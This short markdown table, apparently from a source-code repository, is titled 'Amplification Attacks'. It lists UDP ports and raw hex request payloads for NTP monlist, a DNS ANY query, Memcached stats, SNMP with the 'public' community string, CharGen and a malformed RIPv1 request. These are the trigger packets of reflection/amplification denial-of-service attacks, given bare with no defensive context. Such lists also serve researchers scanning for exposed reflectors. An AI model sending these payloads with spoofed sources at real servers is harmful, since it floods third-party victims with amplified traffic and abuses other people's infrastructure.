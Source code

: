 # Amplification Attacks


|Protocol| Description |UDP Port | Request Payload HEX| 
|---| --- | ---| --- | 
|**NTP**| monlist command | 123 |`1700032a000000000000000000000000` | 
|**DNS**|  ANY google.com query| 53 |`17ea0100000100000000000106676f6f676c6503636f6d0000ff00010000290200000000000000` | 
|**Memcached**|  stat items |11211 | `5a4d0000000100007374617473206974` | 
|**SNMP**|  system description field using community string public | 161 |`302902010004067075626c6963a01c0204565adc5d020100020100300e300c06082b060102010101000500` |
|**CharGen**| one byte data "a" | 19 |`610a` |
|**RIPv1** | malformed request | 520 |`01010000000000000000000000000000`|
